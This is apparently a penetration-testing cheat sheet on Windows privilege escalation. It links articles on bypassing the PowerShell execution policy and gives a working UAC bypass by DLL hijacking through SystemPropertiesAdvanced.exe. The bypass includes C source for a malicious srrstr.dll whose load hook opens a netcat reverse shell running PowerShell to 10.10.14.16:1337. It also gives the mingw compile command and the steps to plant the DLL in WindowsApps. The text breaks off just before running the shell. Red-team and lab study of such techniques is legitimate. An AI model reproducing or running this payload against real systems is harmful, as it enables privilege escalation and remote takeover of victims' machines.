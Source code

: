


## ExecutionPolicy Bypass

* [blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)
* [bestestredteam.com/2019/01/27/powershell-execution-policy-bypass/](https://bestestredteam.com/2019/01/27/powershell-execution-policy-bypass/)




## UAC Bypass



### SystemPropertiesAdvanced.exe


#### srrstr.dll

```c
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
	switch(dwReason) {
		case DLL_PROCESS_ATTACH:
			WinExec("C:\\Users\\<USERNAME>\\Documents\\nc.exe 10.10.14.16 1337 -e powershell", 0);
		case DLL_PROCESS_DETACH:
			break;
		case DLL_THREAD_ATTACH:
			break;
		case DLL_THREAD_DETACH:
			break;
	}

	return 0;
}
```

Compile on Kali:

```
root@kali:$ i686-w64-mingw32-g++ main.c -lws2_32 -o srrstr.dll -shared
```


#### DLL Hijacking

Upload `srrstr.dll` to `C:\Users\%USERNAME%\AppData\Local\Microsoft\WindowsApps\srrstr.dll` and check it:

```
PS > rundll32.exe srrstr.dll,xyz
```

Exec and get a shell ("requires an interactive window station"):
